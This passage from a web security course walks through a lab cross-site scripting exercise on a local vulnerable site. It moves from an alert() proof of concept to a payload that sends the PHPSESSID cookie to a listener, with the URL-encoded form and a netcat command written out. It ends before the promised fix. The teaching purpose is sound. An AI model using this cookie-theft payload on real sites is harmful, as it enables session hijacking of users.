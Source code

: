 While input validation deals with the vulnerability at the source, **output encoding** mitigates the risk at the sink.  The objective of output encoding is to render the input in a safe manner that will not be interpreted or executed by the client.  It does this by converting special characters into a safe encoding scheme and most languages have built-in functions that will perform this task.  Technically, XSS is due to improper handling of output, although mitigating the risk at the source and the sink ensures the most protection.

>[!activity] Activity 9.5 - Cross-Site Scripting
>Our Vulnerable Site container used in the last couple of activities also has a cross-site scripting vulnerability.  I will explore the discovery and exploitation of this vulnerability using the Kali VM.  Afterwards, I will demonstrate how to fix the underlying issue and validate the vulnerability's mitigation.
>
>Once the Kali VM is started and the Vulnerable Site is running, I launch Firefox, navigate to http://127.0.0.1/ and open the page's source by right clicking and selecting View Page Source.  Within the page source, I observe an HTML form with a hidden input named version with a value of beta.  This is one method web applications use to transfer data between requested pages.
>![[../images/09/xss_activity_source.png|View Source of Vulnerable Site Index Page|550]]
>I return to the login page and enter the low privileged username `daniel` and password `Password123` which places me at the Welcome Page.  The page includes a footer with the content "Version: beta" and I can also see that the URL has a GET parameter version with a value of beta.  
>![[../images/09/activity_xss_welcome.png|Welcome Page Version Rendering|500]]
>It appears this page is rendering the GET parameter value.  To test this idea, I change the value `beta` to `foobar` and reload the page.  The footer is updated with arbitrary values!
>![[../images/09/activity_xss_foobar.png|Changing Version Parameter|500]]
>Even though I am able to change the value, it does not indicate a vulnerability.  There could be input validation or output encoding protections that I will not know until I have tested them by trying other payloads.  One common XSS payload test is `<script>alert('xss')</script>` which is simple JavaScript that executes an alert box.  Using this benign payload demonstrates the ability to execute arbitrary code in a clear manner.  These demonstrations are sometimes called *proof of concepts (PoC)*.  I try the XSS test payload by replacing the `foobar` value in the version parameter and reload the page.  This time, an alert box is presented which demonstrates an XSS vulnerability!
>![[../images/09/activity_xss_poc.png|XSS POC|550]]
>This is usually enough evidence to recommend that a development team fix the vulnerability.  However, an attacker could go much further, such as by stealing a user's access cookie.  In the previous section we describe the importance of cookie security and when absent, leaves the cookie vulnerable to theft.  Opening the developer tools, navigating to the Storage tab and selecting the site shows that the `PHPSESSID` token does not have the `HttpOnly` attribute set.  This means that JavaScript is permitted by the browser to interact with the cookie.
>![[../images/09/xss_activity_cookie_review.png|PHPSESSID Cookie Security Check]]
>I can chain the cookie and XSS vulnerabilities into an exploit to steal the PHPSESSID cookie value.  Knowing the cookie value empowers an attacker to use the web application as the victim user.  I modify the previous alert box payload with `<script>var i=new Image;i.src="http://127.0.0.1:9001/?"+document.cookie;</script>` which references an image whose source is 127.0.0.1 on port 9001.  You can imagine replacing this IP address with one in the attacker's control, but since I am performing this demonstration on my local Kali VM, I will just use port 9001 as the attacker's server.  The source request includes a parameter value that references the cookie storage.  When a victim user follows a link with the embedded XSS payload for the Vulnerable Site, they will inadvertently send their cookies to an attacker-controlled server.  
>
>Before I can use this payload, I must convert it into a URL safe encoding scheme as the payload includes special characters used by the browser.  URL encoding is common enough and web applications automatically decode values prior to using them.  Here is the URL "safe" encoding of the previously mentioned payload that will steal a victim's cookie. 
>```
>%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F127.0.0.1%3A9001%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
>```
>Before sending the URL with the payload to the victim, the attacker needs to set up a server to collect the cookie.  Using Netcat, I set up a listener on port 9001 which matches the payload's source.
>```bash
>nc -lp 9001
>```

[^1]: A03 Injection; OWASP Top 10.2021; March 10th 2024; https://owasp.org/Top10/A03_2021-Injection/
[^2]: CWE - CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection') (4.14); MITRE CWE; March 10th 2024; https://cwe.mitre.org/data/definitions/77.html
[^3]: WSTG - Stable; Testing for Command Injection; OWASP Foundation; March 10th 2024; https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection
[^4]: Google Advanced Search; Google; March 10th 2024; https://www.google.com/advanced_search
[^6]: aboul3la/Sublist3r: Fast subdomains enumeration tool for penetration testers; GitHub; March 13 2024; https://github.com/aboul3la/Sublist3r